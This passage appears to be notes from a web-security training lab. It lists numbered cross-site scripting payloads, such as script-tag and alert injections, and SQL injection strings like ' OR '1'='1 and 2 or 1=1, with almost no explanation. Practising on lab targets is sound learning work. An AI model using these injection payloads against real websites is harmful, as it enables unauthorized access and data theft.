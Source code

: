 ```jsx
?name=';alert(1);//
```

---

### 8

```jsx
/"><script>alert(1)</script>
# no ? add after .php
```

---

### 9

```jsx
dom based
```

## SQLI

### 1

```bash
?name='OR'1'='1
```

---

### 2

```bash
?name=root'or'1'='1
```

---

### 3

```jsx
?name=root'or'1'='1
```

---

### 4

```jsx
?id=2 or 1=1
```

---

### 5
